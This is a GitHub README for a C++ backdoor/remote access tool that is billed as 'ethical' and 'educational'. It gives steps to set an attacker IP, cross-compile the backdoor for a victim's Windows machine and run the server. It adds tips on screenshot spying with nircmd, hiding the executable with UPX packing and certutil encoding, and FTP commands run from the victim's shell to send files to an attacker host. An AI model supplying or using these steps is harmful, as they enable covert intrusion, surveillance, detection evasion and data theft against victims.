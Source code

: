 # C++ Backdoor/RAT </br>
**by Pol Galvez** </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes

![alt text](https://raw.githubusercontent.com/PolGs/C-EthicalRAT/main/image_2021-07-30_221130.png)
## How to Use</br>
-> **Configure Attacker IP:(backdoor.c - line 19)**
```sh
char *ServIP  = "192.168.174.129";//Server IP
```
-> **Configure Attacker IP:(server.c -line 90)**
```sh
server_address.sin_addr.s_addr = inet_addr("192.168.174.129");//Server address
```
-> **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```
->**Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/server.exe
```
->**Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Enable run on startup:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)

## Thanks to
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Creating similar RAT<br>
https://youtu.be/6Dc8i1NQhCM<br>
Playlist on basic windows rat .dll</br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs

Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```
## License
Open Source<br>
**Free Software, Hell Yeah!**
